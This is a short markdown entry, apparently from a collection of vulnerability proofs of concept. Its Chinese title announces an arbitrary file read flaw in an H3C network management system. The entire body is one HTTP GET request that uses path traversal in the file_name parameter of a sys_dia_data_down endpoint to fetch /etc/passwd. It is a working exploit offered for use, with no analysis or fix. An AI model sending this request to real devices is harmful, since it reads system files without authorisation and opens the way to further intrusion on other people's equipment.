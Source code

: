 
## H3C网络管理系统任意文件读取漏洞


## poc
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1

```
